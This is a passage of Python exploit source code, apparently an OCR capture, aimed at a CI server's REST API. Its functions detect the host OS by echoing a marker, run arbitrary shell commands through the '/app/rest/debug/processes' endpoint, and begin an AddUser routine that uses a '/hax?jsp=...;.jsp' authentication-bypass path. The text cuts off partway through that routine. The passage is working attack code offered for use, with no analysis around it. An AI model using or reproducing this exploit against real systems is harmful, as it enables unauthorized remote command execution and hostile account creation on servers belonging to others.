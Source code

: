 ```
def GetOSVersion(target, token):
    try:
        get_os_version_url_linux = target + "/app/rest/debug/processes?exePath=/bin/sh&params=-c&params=echo+ReadyGO"
        get_os_version_url_windows = target + "/app/rest/debug/processes?exePath=cmd.exe&params=/c&params=echo+ReadyGO"
        get_os_version_headers = {
            "Authorization": f"Bearer {token}",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36"
        }
        linux_response = requests.post(url=get_os_version_url_linux, headers=get_os_version_headers, proxies=proxy, verify=False, allow_redirects=False, timeout=600)
        if linux_response.status_code != 200:
            print("[-] Unable to obtain operating system version and then execute command.")
            sys.exit(0)
        if "ReadyGO" in linux_response.text:
            return "linux"
        else:
            windows_response = requests.post(url=get_os_version_url_windows, headers=get_os_version_headers, proxies=proxy, verify=False, allow_redirects=False, timeout=600)
            if "ReadyGO" in windows_response.text:
                return "windows"
            else:
                print("[-] Unable to obtain operating system version, please try manual exploitation.")
                sys.exit(0)
    except Exception as err:
        print("[-] Error in func <GetOSVersion>, error message: " + str(err))

def ExecuteCommand(target, os_version, command, token):
    try:
        command_encoded = quote_plus(command)
        if os_version == "linux":
            exec_cmd_url = target + f"/app/rest/debug/processes?exePath=/bin/sh&params=-c&params={command_encoded}"
        else:
            exec_cmd_url = target + f"/app/rest/debug/processes?exePath=cmd.exe&params=/c&params={command_encoded}"
        exec_cmd_headers = {
            "Authorization": f"Bearer {token}",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36"
        }
        exec_cmd_response = requests.post(url=exec_cmd_url, headers=exec_cmd_headers, proxies=proxy, verify=False, allow_redirects=False, timeout=600)
        pattern = re.compile(r"StdOut:(.*?)StdErr:(.*?)$", re.DOTALL)
        match = re.search(pattern, exec_cmd_response.text)
        if match:
            stdout_content = match.group(1).strip()
            if stdout_content == "":
                stderr_content = match.group(2).strip()
                print(stderr_content.split("\n\n")[0])
            else:
                print(stdout_content)
        else:
            print("[-] Match failed. Response text: \n" + exec_cmd_response.text)
    except Exception as err:
        print("[-] Error in func <ExecuteCommand>, error message: " + str(err))

def AddUser(target, username, password, domain):
    add_user_url = target + "/hax?jsp=/app/rest/users;.jsp"
    add_user_headers = {
```